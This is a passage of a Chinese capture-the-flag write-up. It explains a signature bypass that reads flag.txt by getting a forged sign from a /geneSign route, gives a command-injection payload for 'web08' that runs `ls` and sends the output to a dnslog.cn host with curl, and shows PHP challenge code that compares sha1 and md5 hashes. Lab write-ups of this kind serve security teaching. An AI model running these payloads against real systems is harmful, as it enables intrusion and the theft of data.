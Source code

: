 先通过checkSign方法检测登录，需要传入参数action和param经过getSign这个函数之后与sign相等，然后如果scan在action里，则可以让param进入scan这个函数，而这里的判断用的是in，而不是==。然后去看scan函数，这里可以发现传入到scan里的param并没有被过滤，所以如果我们能够令param伪flag.txt则可以读取它的内容。

由此我们开始构造，首先需要self.checkSign()返回真，所以我们需要让经过getSign函数的action和param返回值等于sign。也就是：

```
hashlib.md5(secert_key + param + action).hexdigest() == self.sign

hashlib.md5(secert_key + 'flag.txt' + 'readscan').hexdigest() == self.sign
```

即我们需要得到secert_key + 'flag.txtreadscan'的哈希值，

```

@app.route("/geneSign", methods=['GET', 'POST'])
def geneSign():
    param = urllib.unquote(request.args.get("param", ""))
    action = "scan"
    return getSign(action, param)
```

但是我们不知道secret_key的值，但是我们可以通过上面截取的源码中/geneSign，来返回我们所需要的编码之后的哈希值。

因为/geneSign中已经将action定为scan，所以我们传入的param可以为flag.txtread，使它还是拼接为``secert_key + 'flag.txtreadscan'``。

即先：

```
/geneSign?param=flag.txtread
```

得到返回的哈希值。

再访问De1ta页面，传递参数：

```
Cookie: action=readscan;sign=哈希值
```

### web08

```
?F=`$F`;+curl `ls`.v3lcwh.dnslog.cn
```

得到

[![fJJR0J.png](https://z3.ax1x.com/2021/08/10/fJJR0J.png)](https://imgtu.com/i/fJJR0J)

然后访问yesYes.php,提示碰碰运气? 然后想到了robots.txt，去访问，得到Yahoo.php提示，去访问：

```php
 <?php

error_reporting(0);
highlight_file(__FILE__);

include("yesYes.php");

$a=$_GET['A_b.c.d_D'];
$b=$_POST['B_c_d.e.E'];

if(isset($_GET['A_b.c.d_D'])&&isset($_POST['B_c_d.e.E']))
{
    if(!preg_match("/.+?aa/i",$a))
    {
        if(sha1($a)==md5($b))
        {
            echo $flag;
        }

    }
```